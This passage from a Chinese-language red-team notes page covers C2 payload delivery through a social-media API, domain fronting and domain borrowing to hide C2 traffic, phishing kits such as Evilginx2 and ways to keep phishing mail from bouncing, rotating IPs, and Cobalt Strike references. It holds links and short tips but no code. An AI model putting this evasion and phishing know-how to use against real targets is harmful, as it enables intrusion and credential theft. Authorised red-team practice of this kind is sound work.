也可以找国内小厂，或者利用应用 API（[https://github.com/kleiton0x00/RedditC2）来获取](https://github.com/kleiton0x00/RedditC2%EF%BC%89%E6%9D%A5%E8%8E%B7%E5%8F%96) C2 Payload。

#### Domain Borrowing

按照技术发展顺序提出了几种利用方法：

-   Domain Fronting -> Domain Hiding -> Domain Borrowing

他们都有对应检测方法，但用新不用旧，有些内容在国内不太流行可能效果不错。

[https://xlab.tencent.com/cn/2021/05/14/domain-borrowing/](https://xlab.tencent.com/cn/2021/05/14/domain-borrowing/)  
[https://i.blackhat.com/asia-21/Thursday-Handouts/as-21-Ding-Domain-Borrowing-Catch-My-C2-Traffic-If-You-Can.pdf](https://i.blackhat.com/asia-21/Thursday-Handouts/as-21-Ding-Domain-Borrowing-Catch-My-C2-Traffic-If-You-Can.pdf)  
[https://www.youtube.com/watch?v=eVr0kKdgM2I](https://www.youtube.com/watch?v=eVr0kKdgM2I)  
[https://ntc.party/t/domain-borrowing/2972](https://ntc.party/t/domain-borrowing/2972)

## 钓鱼服务

### 邮件

怎么才能避免发信被退回。

服务：

-   [GoPhish](https://github.com/gophish/gophish)
-   [Evilginx2](https://github.com/kgretzky/evilginx2)
-   [EvilGophish](https://github.com/fin3ss3g0d/evilgophish)

或者直接买邮件推送服务，很多云服务商都有此业务。

### 站点

## Rotating IP

测试中经常会有封 IP 的操作，需要自动切换 IP。

或者说是跳板机。

标题还没想好。

## 参考链接

-   [Cobalt Strike 官方文档](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_main.htm)
-   [Cobalt\_Strike\_wiki](https://github.com/aleenzz/Cobalt_Strike_wiki)
-   [Cobalt Strike Red Team Ops - Training Course](https://www.youtube.com/playlist?list=PLcjpg2ik7YT6H5l9Jx-1ooRYpfvznAInJ)
-   [CobaltStrike与Metasploit实战联动](https://payloads.cn/2019/1211/cobaltstrike-and-metasploit-actual-combat-linkage.html)
-   [Awesome CobaltStrike](https://github.com/zer0yu/Awesome-CobaltStrike#0x00-introduction)
-   [MS Word Document with Switcheroo Text](https://ppn.snovvcrash.rocks/red-team/se/phishing/ms-office#ms-word-document-with-switcheroo-text)
-   [Cobalt Strike](https://wbglil.gitbook.io/cobalt-strike/)

最近更新：2023年05月29日 11:19:27

发布时间：2022年09月05日 22:23:00
